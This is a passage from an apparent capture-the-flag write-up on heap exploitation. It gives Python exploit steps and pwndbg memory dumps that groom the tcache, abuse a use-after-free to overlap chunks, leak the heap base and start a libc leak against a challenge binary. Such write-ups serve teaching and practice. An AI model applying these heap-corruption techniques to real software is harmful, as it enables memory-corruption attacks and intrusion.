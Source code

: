 ```
empty
```

```python
add_company(b"grr", 1000) # 0x51: 6
add_project(b"grr", b"p0", 500) # 0x51: 5
add_project(b"grr", b"p1", 500) # 0x51: 4

# clear 0x41 tcache
for i in range(15):
    hire_worker(b"grr", b"p0", b"tom" + str(i).encode(), 0x30)
```

Now, our last worker tom14 will have forced the last remainder chunk to overlap
exactly with our project's name size field. However, there's one more problem -
our victim project's company pointer is invalid, so the program will crash when we
call `worker_info`.

```
pwndbg> x/32gx 0x555555588690
0x555555588690: 0x0000000000000030      0x0000555555588510
0x5555555886a0: 0x0000555555588310      0x0000000000000091
0x5555555886b0: 0x000015555514cb20      0x000015555514cb20
0x5555555886c0: 0x0000000000000000      0x00005555555894d0
0x5555555886d0: 0x00005555555894d0      0x00005555555896d0
0x5555555886e0: 0x00000000000000a0      0x0000000000000050
                ^^ invalid *company
```

If we overlaid an actual project over this chunk, we can get the victim company
pointer to align with the actual project's `workers->end` pointer, which will
be initialized when we add a worker to it.

```python
for i in range(2, 6):
    add_project(b"grr", b"p" + str(i).encode(), 500)

hire_worker(b"grr", b"p5", b"robot999", 0x30)
```

Finally, we can leak our heap base:

```python
worker_info(b"john0")
p.interactive()
p.recvuntil(b"Project name: ")
leak = p.recvline().strip()
heap_base = u64(leak[16:24]) - 0x13330
```

### Leaking libc

Now that we have heap base, we can also leak libc from unsorted chunks. First,
let's free up the UAF project so we can reuse it for libc leak:

```python
fire_worker(b"robot999")
remove_project(b"grr", b"p5")
```
